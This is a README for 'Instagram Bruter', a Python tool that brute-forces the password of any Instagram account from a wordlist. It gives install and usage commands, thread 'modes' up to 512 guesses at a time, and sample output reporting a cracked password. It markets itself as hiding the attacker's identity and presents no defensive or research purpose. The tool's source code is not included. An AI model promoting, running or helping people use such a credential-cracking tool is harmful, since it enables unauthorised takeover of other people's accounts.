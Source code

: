 # Instagram Bruter

[![Version](https://img.shields.io/badge/Version-v2.1.1-blue)]()
[![Python](https://img.shields.io/badge/Python-v3.6%2B-blue)]()
[![Discord](https://img.shields.io/badge/Discord-server-blue)](https://discord.gg/C6AFrWQ)
[![Donate](https://img.shields.io/badge/PayPal-donate-orange)](https://www.paypal.me/Msheikh03)

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

### NOTICE

I'm no longer maintaining this project.

### Support me

> **Bitcoin wallet:** 3Kr5C9t9HWwPfqzSNXeBNyRvJWw9sSLeKy<br> >**PayPal:** https://www.paypal.me/Msheikh03

### Requirements

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Help

```
C:\Users\Ousmane\Desktop\Instagram>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
C:\Users\Ousmane\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
C:\Users\Ousmane\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
C:\Users\Ousmane\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
C:\Users\Ousmane\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: Ousmane
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: Ousmane
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Ousmane
[+] Password: Sami123
```
